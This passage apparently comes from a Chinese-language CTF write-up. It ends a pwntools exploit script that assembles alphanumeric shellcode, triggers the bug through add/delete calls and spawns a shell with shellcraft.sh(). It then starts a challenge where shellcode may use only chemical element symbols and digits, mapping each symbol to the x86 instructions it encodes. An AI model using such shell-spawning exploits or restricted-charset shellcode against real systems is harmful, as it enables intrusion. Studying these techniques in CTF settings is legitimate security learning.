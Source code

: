 ```python
	'fuckPPPP' + padding +
	'X4340t9P' + padding +
	'XH0AFu6P' + padding +
	'0A60AWua'
)
print disasm(sh)
sh = sh.split(padding)

#gdb.attach(p, 'b *0x080488EA\nc')

#sh = 'PYTXuA'
add(offset, sh[0])
for i in range(5):
	add(i, sh[i + 1])
delete(offset)

payload = '\x90' * 0x37 + asm(shellcraft.sh())
#raw_input('@')
p.sendline(payload)

p.interactive()
```

# Hell Shellcode

## MnO2

同样是 shellcode，这道题里只能用元素周期表中的元素以及数字：

```txt
H He Li Be B C N O F Ne Na Mg Al Si P S Cl Ar K Ca Sc Ti V Cr Mn Fe Co Ni Cu Zn Ga Ge As Se Br Kr Rb Sr Y Zr Nb Mo Tc Ru Rh Pd Ag Cd In Sn Sb Te I Xe Cs Ba La Ce Pr Nd Pm Sm Eu Gd Tb Dy Ho Er Tm Yb Lu Hf Ta W Re Os Ir Pt Au Hg Tl Pb Bi Po At Rn Fr Ra Ac Th Pa U Np Pu Am Cm Bk Cf Es Fm Md No Lr Rf Db Sg Bh Hs Mt Ds Rg Cn Fl Lv
0 1 2 3 4 5 6 7 8 9
```

先试试大概有哪些能用。大部分都是一些 `inc` 和 `dec`，还有一些 `push` 和 `pop`，但这些肯定不够，还得用上一些元素的组合：

```txt
[H]		dec eax
[He]	dec eax ; xor gs:[ecx], xx
[Li]	dec esp ; imul esi, [eax], xx
[Be]	inc edx ; xor gs:[ecx], xx
[B]		inc edx
[C]		inc ebx
[N]		dec esi
[O]		dec edi
[F]		inc esi
[Ne]	dec esi ; xor gs:[ecx], xx
[Na]	dec esi ; popa
[Mg]	dec ebp ; xxxx
[Al]	inc ecx ; ins es:[edi], dx
[Si]	push ebx ; imul esi, [eax], xx
[P]		push eax
[S]		push ebx
[Cl]	inc ebx ; ins es:[edi], dx
[Ar]	inc ecx ; jb xx
[K]		dec ebx
[Ca]	inc ebx ; popa
[Sc]	push ebx ; xxxx
[Ti]	push esp ; imul esi, [eax], xxxx
[V]		push esi
[Cr]	inc ebx ; jb xx
```